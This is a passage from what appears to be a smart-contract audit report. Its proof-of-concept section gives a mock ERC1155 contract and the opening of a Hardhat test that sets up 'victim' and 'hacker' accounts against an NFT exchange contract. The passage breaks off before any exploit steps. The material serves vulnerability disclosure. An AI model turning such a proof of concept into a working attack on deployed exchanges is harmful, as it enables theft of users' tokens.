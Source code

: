 ### [](#proof-of-concept-2)Proof of Concept

First put the `MockERC1155.sol` under the `contracts/` directory:

    // SPDX-License-Identifier: MIT
    pragma solidity 0.8.14;
    import {ERC1155URIStorage} from '@openzeppelin/contracts/token/ERC1155/extensions/ERC1155URIStorage.sol';
    import {ERC1155} from '@openzeppelin/contracts/token/ERC1155/ERC1155.sol';
    import {Ownable} from '@openzeppelin/contracts/access/Ownable.sol';
    
    contract MockERC1155 is ERC1155URIStorage, Ownable {
      uint256 numMints;
    
      constructor(string memory uri) ERC1155(uri) {}
    
      function mint(address to, uint256 id, uint256 amount, bytes memory data) external onlyOwner {
        super._mint(to, id, amount, data);
      }
    }

And then put `poc.js` under the `test/` directory.

    const { expect } = require('chai');
    const { ethers, network } = require('hardhat');
    const { deployContract, NULL_ADDRESS, nowSeconds } = require('../tasks/utils');
    const {
      getCurrentSignedOrderPrice,
      approveERC20,
      grantApprovals,
      signOBOrder
    } = require('../helpers/orders');
    
    async function prepare1155OBOrder(user, chainId, signer, order, infinityExchange) {
      // grant approvals
      const approvals = await grantApprovals(user, order, signer, infinityExchange.address);
      if (!approvals) {
        return undefined;
      }
    
      // sign order
      const signedOBOrder = await signOBOrder(chainId, infinityExchange.address, order, signer);
    
      const isSigValid = await infinityExchange.verifyOrderSig(signedOBOrder);
      if (!isSigValid) {
        console.error('Signature is invalid');
        return undefined;
      }
      return signedOBOrder;
    }
    
    describe('PoC', function () {
      let signers,
        dev,
        matchExecutor,
        victim,
        hacker,
        token,
        infinityExchange,
        mock1155Contract1,
        mock1155Contract2,
        obComplication
    